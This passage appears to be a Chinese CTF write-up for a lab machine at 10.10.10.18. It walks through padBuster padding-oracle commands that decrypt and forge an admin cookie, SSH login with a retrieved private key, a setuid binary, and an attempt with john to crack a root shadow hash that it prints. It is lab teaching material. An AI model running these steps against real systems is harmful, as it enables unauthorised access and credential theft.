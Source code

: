 #### padBuster.pl

Use: padBuster.pl URL EncryptedSample BlockSize [options]

```
Padding Oracle -- 填充oracle解密：
perl padBuster.pl http://10.10.10.18 zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e -cookies auth=zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e 8 -encoding 0

填充oracle加密
perl padBuster.pl http://10.10.10.18 zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e -cookies auth=zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e 8 -encoding 0 -plaintext user=admin

当获得admin加密后，获得了cookies字符串。用burp修改包。
```

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/3.PNG)

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/4.PNG)

访问/mysshkeywithnamemitsos

将密钥保存为一个名为id_rsa的文件。

```
chmod 400 id_rsa
ssh -i id_rsa mitsos@10.10.10.18
```

#### INFO
家目录下有一个suid权限的elf程序。尝试用john破解/etc/shadow，失败。
```
mitsos@LazyClown:~$ ls -al backup
-rwsrwsr-x 1 root root 7303 May  3  2017 backup

mitsos@LazyClown:~$ file backup
backup: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=33d6b5bec96c44e630f37ff41cc1c4a8b2813b6b, not stripped

一下就是/etc/shadow的第一行
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::

复制第一个冒号和第二个冒号之间的字符串，就是密文。将密文保存为文件名pass
$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0

---
john --wordlist=/usr/share/john/password.lst ./pass
解密失败
---
```

strings backup
